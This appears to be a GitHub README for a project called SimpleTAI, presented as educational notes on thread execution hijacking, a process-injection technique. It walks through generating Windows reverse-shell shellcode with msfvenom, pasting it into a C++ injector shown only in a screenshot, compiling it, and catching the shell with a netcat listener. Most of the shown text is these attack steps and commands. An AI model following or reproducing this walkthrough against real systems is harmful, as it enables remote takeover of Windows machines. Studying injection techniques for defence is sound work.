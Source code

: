 # SimpleTAI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..


so what is thread access injection ? 

Thread execution hijacking is a method used to control a running thread in a process. It starts by opening access to a process, then allocating memory within the process, writing malicious code (payload) into the allocated memory, creating a new thread in the process and starting it with the malicious code. This will cause the code to take control of the thread.

we test the script by create a vm in my case is kali linux . 

in the console we type the command below

```
ifconfig
```
then take the vm ip we want to use has a "hacker" machine

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
	options=3<RXCSUM,TXCSUM>
	ether xx:xx:xx:xx:xx:xx 
	inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```

i choose to use this exploit for the reverseshell , of course you can choose any 

```
msfvenom -p windows/×64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
then we have the shell code 

and we will insert it to ``` shellcode[] = {`here`}```

![Screenshot 2023-01-24 at 10 50 42](https://user-images.githubusercontent.com/122444563/214353717-a4f88edd-6681-48d0-bb67-f75a74b88bd6.png)


once we have the script has it shown in screenshot above 
we will change the filemode for .exe 

```cl /Tc <filename>.cpp```

change back to the vm and listen to the port we specify 
```nc -nlvp 4444```






